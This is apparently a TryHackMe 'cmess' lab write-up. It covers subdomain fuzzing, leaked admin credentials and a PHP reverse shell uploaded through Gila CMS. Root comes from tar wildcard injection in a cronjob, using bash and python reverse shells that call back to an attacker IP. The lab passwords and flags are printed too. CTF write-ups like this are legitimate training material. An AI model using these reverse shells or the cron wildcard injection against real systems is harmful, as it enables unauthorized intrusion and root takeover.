# Tryhackme.com Room : cmess

`https://tryhackme.com/room/cmess`

## Instance

```bash
export IP="10.10.32.231"
```

## Nmap

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial Foothold

We got a website running `gilacms` on port `80`

`/robots.txt` :

```
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
```



Doing a `searchsploit gila` we get :

```
Gila CMS 1.11.8 - 'query' SQL Injection
Gila CMS 1.9.1 - Cross-Site Scripting
Gila CMS < 1.11.1 - Local File Inclusion
```

Let's tryout the `LFI` exploit

Hmm we actually need to be authenticated for this exploit to work.

Let's look at the `SQL injection`

We need to be authenticated for this one as well.



I was trying a bunch of exploits but nothing seemed to work. I had a quick look at a writeup to get some hints.



The author of the write up enumerate subdomains, didn't think of that.

Here is how to do it with `wfuzz` :

```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm"
```

We find `dev.cmess.thm` 

We add it to our host file and we see

```
Development Log
andre@cmess.thm

Have you guys fixed the bug that was found on live?
support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: KPFTN_f2yxe%
```

We get the credentials :

```
andre@cmess.thm:KPFTN_f2yxe%
```

With those, we can login to the admin pannel at `http://cmess.thm/admin`.

We see in the admin pannel that the version of `gila` is `1.10.9`.

Now that we are authenticated, we can use the exploits that we found earlier.



When trying to do the `LFI` exploit, I ended up on a file explorer window `/admin/fm` which allowed me to upload files. I simply uploaded a reverse shell (Well actually, created the file using the web interface) in `/assets` :

```
 <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/7777 0>&1'");?>
```

And we get a shell as `www-data`



We find the file `/opt/.password.bak` which contains :

```
andres backup password
UQfsdCB7aAP6
```

And we can login as `andre` using this password.

We get `/home/andre/user.txt` :

```
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```



## Priv Esc

Looking at `/etc/crontab` we find :

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

So we got a job running every 2 minutes that call `tar` with a `wildcard` expression.



Looking at `gtfobin` we see that we can execute commands using 

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Now we have a `*` in the cronjob, so we can do argument injection using specifically crafted files.

We can create such files using

```
touch -- "--checkpoint=1"
```

Now the tricky part is that we can't use `/` in file names so the file we want to execute must be in our current folder.

So let's craft a reverse shell script.

My first attempt was with this :

```
#!/bin/bash
bash -i >& /dev/tcp/10.6.32.20/5555 0>&1
```

I was able to run it manually but for some reason, it wouldn't work when calling from tar.

So I crafter another reverse shell using python :

```bash
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.6.32.20",5555));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

This file was named `s.sh` and was written in `/home/andre/backup`

Now we need the last file :

```
touch -- "--checkpoint-action=exec=sh s.sh"
```

I was able to manually test that this was working using 

```
tar -cf /dev/null /dev/null *
```

Then it was just a matter of waiting for the cron job to be executed.



And we are `root`



`/root/root.txt` :

```
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```





## Wrap up

* Always think about enumerating subdomains... Should be automatic like doing a `nmap` and `gobuster`
  * Also, when entering the flags, I saw that there was an `hint` referencing `subdomain fuzzing`. Should have looked at the hint before looking at a writeup (Didn't look past the subdomain enumeration anyways but still)
* I kinda knew that using `--` would make the command ignore futher arguments (Still parsing positional arguments) but I didn't think of using it to craft the files. I was using a python shell to do so (`python3 -c 'open("--checkpoint=1","w").write("1")`) but the `touch -- filename` approach is easier.
* This box was pretty straightforward, once you think about enumerating subdomains.